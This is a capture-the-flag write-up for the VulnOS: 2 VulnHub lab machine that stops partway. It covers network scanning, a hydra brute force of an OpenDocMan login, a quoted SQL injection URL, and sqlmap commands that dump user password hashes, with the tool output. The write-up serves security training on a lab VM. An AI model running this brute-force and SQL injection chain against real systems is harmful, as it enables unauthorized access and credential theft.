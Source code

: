 ![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/38870c8b-0936-492b-bd14-1062ee90c440)# VulnOS: 2

## 1.Get VM IP

```text
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:d6:4d:fa       PCS Systemtechnik GmbH
192.168.56.104  08:00:27:57:4f:aa       PCS Systemtechnik GmbH
```

The IP address is `192.168.56.104`, lets enumerate it.

## 2.Enumeration

```text
root@kali: nmap -sV -sC -p- -v -oN fullscan 192.168.56.104

Nmap scan report for 192.168.56.104
Host is up (0.00011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|   256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: VulnOSv2
|_http-server-header: Apache/2.4.7 (Ubuntu)
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking port 80 shows a basic website :

![mainPage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/378a7c15-24ab-4726-9a9e-d20150ac6047)

i first navigated each menu and its page source, `documentation` menu is weird and has nothing in UI but if you see the page source

or highlight the page, it mentions a directory (/jabcd0cs/) ;

![path](https://github.com/Git-K3rnel/VulnHub/assets/127470407/eb055fed-4dab-4632-b8c8-c9cdd5758e61)

is also started fuzzing the website and checking robots.txt which revealed new directories :

```text
User-agent: *
Crawl-delay: 10
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

there is nothing interesting in these directories, so let's check the `/jabcd0cs/` :

![docman](https://github.com/Git-K3rnel/VulnHub/assets/127470407/47cbb7ec-3500-4723-878d-6fa4fb98b793)

here i just brute force the page with some default credentials :

```text
root@kali: hydra -L /default-usernames.txt  -P /default-usernames.txt 192.168.56.104 http-post-form "/jabcd0cs/:frmuser=^USER^&frmpass=^PASS^&login=Enter:Error" -v

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-26 04:47:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 576 login tries (l:24/p:24), ~36 tries per task
[DATA] attacking http-post-form://192.168.56.104:80/jabcd0cs/:frmuser=^USER^&frmpass=^PASS^&login=Enter:Error
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://192.168.56.104:80/jabcd0cs/out.php
[80][http-post-form] host: 192.168.56.104   login: guest   password: guest
[STATUS] attack finished for 192.168.56.104 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

yes, i found `guest:guest` here, tried several ways to get a web shell but didn't work.

so i checked `searchsploit` for any known exploit for `opendocman` :

```text
root@kali: searchsploit opendocman

OpenDocMan 1.2.7 - Multiple Vulnerabilities  | php/webapps/32075.txt
```

reading through [this](https://www.exploit-db.com/exploits/32075) document, it says there is a SQLi here :

```text
The exploitation example below displays version of the MySQL server:

http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,v
ersion%28%29,3,4,5,6,7,8,9
```

all we need to do is to replace the values according to our target and use sqlmap to attack the database :

```text
root@kali: sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php/?q=1&add_value=odm_user" -p add_value --batch --level 3 --dbs

available databases [6]:
[*] drupal7
[*] information_schema
[*] jabcd0cs
[*] mysql
[*] performance_schema
[*] phpmyadmin
```

we are interested in `jabcd0cs` database so let's see the tables :

```text
root@kali: sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php/?q=1&add_value=odm_user" -p add_value --batch --level 3 -D jabcd0cs --tables

[15 tables]
+-------------------+
| odm_access_log    |
| odm_admin         |
| odm_category      |
| odm_data          |
| odm_department    |
| odm_dept_perms    |
| odm_dept_reviewer |
| odm_filetypes     |
| odm_log           |
| odm_odmsys        |
| odm_rights        |
| odm_settings      |
| odm_udf           |
| odm_user          |
| odm_user_perms    |
+-------------------+
```

what is better than `odm_user` table ? let's see the columns :

```text
root@kali: sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php/?q=1&add_value=odm_user" -p add_value --batch --level 3 -D jabcd0cs -T odm_user --columns

[9 columns]
+---------------+------------------+
| Column        | Type             |
+---------------+------------------+
| department    | int(11) unsigned |
| Email         | varchar(50)      |
| first_name    | varchar(255)     |
| id            | int(11) unsigned |
| last_name     | varchar(255)     |
| password      | varchar(50)      |
| phone         | varchar(20)      |
| pw_reset_code | char(32)         |
| username      | varchar(25)      |
+---------------+------------------+
```

i need all of them, so let's dump all the info :

```text
root@kali: sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php/?q=1&add_value=odm_user" -p add_value --batch --level 3 -D jabcd0cs -T odm_user --dump

+----+--------------------+-------------+----------------------------------+----------+-----------+------------+------------+---------------+
| id | Email              | phone       | password                         | username | last_name | department | first_name | pw_reset_code |
+----+--------------------+-------------+----------------------------------+----------+-----------+------------+------------+---------------+
| 1  | webmin@example.com | 5555551212  | b78aae356709f8c31118ea613980954b | webmin   | min       | 2          | web        | <blank>       |
| 2  | guest@example.com  | 555 5555555 | 084e0343a0486ff05530df6c705c8bb4 | guest    | guest     | 2          | guest      | NULL          |
+----+--------------------+-------------+----------------------------------+----------+-----------+------------+------------+---------------+
```

perfect, we know have the hashes, i just go for `webmin` user to crack the hash





